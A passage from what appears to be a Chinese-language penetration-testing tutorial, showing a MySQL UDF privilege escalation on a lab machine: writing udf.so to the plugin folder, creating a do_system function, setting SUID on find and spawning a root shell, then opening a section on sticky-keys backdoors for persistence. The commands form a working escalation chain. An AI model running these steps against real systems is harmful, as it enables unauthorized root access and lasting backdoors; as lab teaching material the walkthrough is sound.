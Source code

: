 ```bash
mysql> select * from myfunc into dumpfile '/usr/lib/mysql/plugin/udf.so';
select * from myfunc into dumpfile '/usr/lib/mysql/plugin/udf.so';
Query OK, 1 row affected (0.01 sec)
```

#### 8.5.4 开始提权

```bash
# 本地查看库文件的可用函数
┌──(root㉿pinginglab)-[/var/www/html]
└─# nm -D udf.so                             
                 w __cxa_finalize@GLIBC_2.2.5
0000000000001109 T do_system
000000000000114d T do_system_init
                 w __gmon_start__
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
                 U system@GLIBC_2.2.5

# 创建函数 do_system 并返回整形，调用的库文件为：udf.so
mysql> create function do_system returns integer soname 'udf.so';       
create function do_system returns integer soname 'udf.so';
Query OK, 0 rows affected (0.00 sec)

# 利用该函数执行系统命令为 find二进制文件 赋予SUID权限
mysql> select do_system('chmod u+s /usr/bin/find');
select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.01 sec)

# 开始提权并获取root交互shell
www-data@Raven:/var/www/html$ touch abc
touch abc

www-data@Raven:/var/www/html$ find abc -exec "/bin/sh" \;
find abc -exec "/bin/sh" \;
# whoami
whoami
root
```

# 第四章：维持访问技术

> 此技术一般用于在获取了root权限之后，建立后门以便黑客后续使用

## 1. 粘滞键后门

